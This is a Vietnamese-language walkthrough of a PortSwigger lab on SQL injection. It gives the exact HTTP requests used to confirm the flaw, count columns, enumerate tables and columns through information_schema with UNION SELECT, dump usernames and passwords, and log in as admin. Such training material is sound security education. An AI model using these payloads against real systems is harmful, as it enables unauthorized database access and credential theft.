# [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Lỗ hổng: Phía server không có phòng thủ với SQLi, lấy thông tin các bảng, cột trong bảng và dữ liệu từ bảng khác.

1.  Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
    - `GET /filter?category=Accessories HTTP/1.1`
2.  Kiểm tra SQLi:
    - `GET /filter?category=' HTTP/1.1`
    - ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3.  Sử dụng UNION để kiểm tra số cột:
    - Gửi request đến intruder và test với payload từ 1 đến 10
    - `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
    - Kết quả: ![8fe46860956051009997c1633e8f4cd8.png](../../../../../../_resources/8fe46860956051009997c1633e8f4cd8.png)
    - Lỗi từ số 3 => có 2 cột.
4.  Kiểm tra kiểu dữ liệu cả 2 cột:
    - `GET /filter?category='UNION+SELECT+'s','s'-- HTTP/1.1`
    - Kết quả: ![5e5f63450c362321b0020ed44b46f951.png](../../../../../../_resources/5e5f63450c362321b0020ed44b46f951.png)
    - =\> Đều là string
5. Tìm kiếm cách lấy thông tin của db:
	- https://portswigger.net/web-security/sql-injection/cheat-sheet
	- https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/  
	- `GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables-- HTTP/1.1`
	- Tìm kiếm bảng khả nghi, `users_eyresz`
8. Tìm kiếm cách lấy thông tin của bảng:
	- https://portswigger.net/web-security/sql-injection/cheat-sheet
	- https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/
	- `GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_eyresz'-- HTTP/1.1`
	- Lấy được tên hai cột là `username_wrogmc`,`password_fvnqui` 
10.  `GET /filter?category='UNION+SELECT+username_wrogmc,password_fvnqui+FROM+users_eyresz-- HTTP/1.1`
	- Kết quả: ![1e8bd759cb7c22e6cf1f7f7361fdff93.png](../../../../../../_resources/1e8bd759cb7c22e6cf1f7f7361fdff93.png)
	- Lấy được tài khoản.
11. Đăng nhập tài khoản admin => Lab Solved